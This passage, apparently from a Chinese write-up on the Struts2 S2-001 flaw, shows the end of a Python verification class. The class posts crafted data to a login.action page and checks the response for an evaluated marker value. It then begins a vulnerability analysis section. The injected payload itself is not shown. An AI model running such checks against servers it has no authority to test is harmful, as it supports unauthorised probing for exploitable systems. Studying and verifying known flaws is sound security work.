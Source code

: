 ```python
        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        try:
            check_req = requests.post(self.url, headers = self.headers, data = self.check_data)
            check_pattern = re.compile('<.*?name="password" value="(.*?)" ')
            check_result = check_pattern.findall(check_req.text)
            if check_result[0] == '80147':
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_001 = S2_001_BaseVerify('http://127.0.0.1:8080/login.action')
    S2_001.run()
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](images/流程图.png)
